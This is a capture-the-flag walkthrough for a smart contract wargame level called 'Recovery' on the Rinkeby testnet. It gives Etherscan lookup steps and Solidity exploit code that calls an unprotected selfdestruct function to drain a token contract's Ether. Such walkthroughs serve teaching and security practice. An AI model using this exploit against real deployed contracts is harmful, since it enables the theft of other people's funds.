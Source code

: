 # Recovery

**HINT:** Find the Simple Token address using [Rinkeby.etherscan](https://rinkeby.etherscan.io/) to then kill the contract
<details>
<summary>Part 1</summary>
<p>

You want to find what the contract address is so first go to [Rinkeby.etherscan](https://rinkeby.etherscan.io/) and search you contract instance address

</p>
</details>

<details>
<summary>Part 2</summary>
<p>

Click on ```Internal Txns``` and click on the ```Parent Txn Hash``` of the latest ```contract creation```

</p>
</details>

<details>
<summary>Part 3</summary>
<p>

Look at where the Ether was sent in the ```to:``` section and click on the address that the 0.5 Ether was sent to. This is the address of the contract so keep that tab open because you need it for the next steps.

</p>
</details>

<details>
<summary>Part 4</summary>
<p>

create a contract to kill the simple token contract and recover the Ether
```
pragma solidity ^0.6.6;

contract SimpleToken {


  // public variables
  string public name;
  mapping (address => uint) public balances;

  // constructor
  constructor(string memory _name, address _creator, uint256 _initialSupply) public {
    name = _name;
    balances[_creator] = _initialSupply;
  }

  // collect ether in return for tokens
  fallback() external payable {
    balances[msg.sender] = msg.value * 10;
  }

  // allow transfers of tokens
  function transfer(address _to, uint _amount) public { 
    require(balances[msg.sender] >= _amount);
    balances[msg.sender] = balances[msg.sender] -_amount;
    balances[_to] = _amount;
  }

  // clean up after ourselves
  function destroy(address payable _to) public {
    selfdestruct(_to);
  }
}

contract Destroy{
    address payable receiver = msg.sender;
    SimpleToken killMeplease;
    
    function destroySimpleToken(address payable simpleTokenAddress) public{
        killMeplease = SimpleToken(simpleTokenAddress);
        killMeplease.destroy(receiver);
    }
    
}
```
When deployed use the address you found and hit transact.

</p>
</details>